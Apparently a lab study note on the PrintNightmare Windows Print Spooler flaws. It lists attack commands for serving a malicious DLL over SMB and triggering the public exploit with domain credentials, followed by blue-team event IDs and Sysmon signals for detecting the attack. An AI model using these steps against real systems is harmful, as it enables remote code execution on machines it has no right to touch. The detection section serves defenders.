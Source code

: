 ## Window Print Spooler Vulnerability
- managing the print jobs, receiving files to be printed, queueing them, and scheduling
- able to Start/Stop/Pause/Resume the Print Spooler Service in Service

```
rpcdump.py @10.10.56.87 | egrep 'MS-RPRN|MS-PAR'
```

#### the CVE-2021-1675 and CVE-2021-34527
- CVE-2021-1675 (need local access)
- Can remotely inject DLL (CVE-2021-34527)

- https://github.com/tryhackme/CVE-2021-1675.git

- Host SMB Share with malicious .dll file inside

```
smbserver.py share "/dir/to/share" -smb2support
```

- Run
```
./exploitCVE.py domain/domainuser:password@ip "/share/malicious.dll"
```

- Listen on .dll payload lhost lport

- Folder on victim to check
```
"C:\\Windows\\System32\\spool\\drivers\\x64\\3"
```


## BlueTeam Aspect

The logs related to Print Spooler Activity are:

    Microsoft-Windows-PrintService/Admin
    Microsoft-Windows-PrintService/Operational

We can detect the PrintNightmare artifacts by looking at the endpoint events or Windows Event Logs mentioned above.

You can look for the following Event IDs:

    Microsoft-Windows-PrintService/Operational (Event ID 316) - look for "Printer driver [file] for Windows x64 Version-3 was added or updated. Files:- UNIDRV.DLL, AddUser.dll, AddUser.dll. No user action is required.”
    Microsoft-Windows-PrintService/Admin (Event ID 808) - A security event source has attempted to register (can detect unsigned drivers and malicious DLLs loaded by spoolsv.exe)
    Microsoft-Windows-PrintService/Operational (Event ID 811) - Logs the information regarding failed operations. The event will provide information about the full path of the dropped DLL.
    Microsoft-Windows-SMBClient/Security (Event ID 31017) - This Event ID can also be used to detect unsigned drivers loaded by spoolsv.exe.
    Windows System (Event ID 7031) - Service Stop Operations (This event ID will show you unexpected termination of print spooler service).

You can also use Sysmon to detect PrintNightmare terror: 

    Microsoft-Windows-Sysmon/Operational (Event ID 3) - Network connection (Look for suspicious ports)

    Microsoft-Windows-Sysmon/Operational (Event ID 11) - FileCreate (File creation events are being logged,  you can look for loaded DLLs in the Print Spooler’s driver directory: C:\Windows\System32\spool\drivers\x64\3)

    Microsoft-Windows-Sysmon/Operational (Event IDs 23, 26) - FileDelete (You can hunt for deleted malicious DLLs)
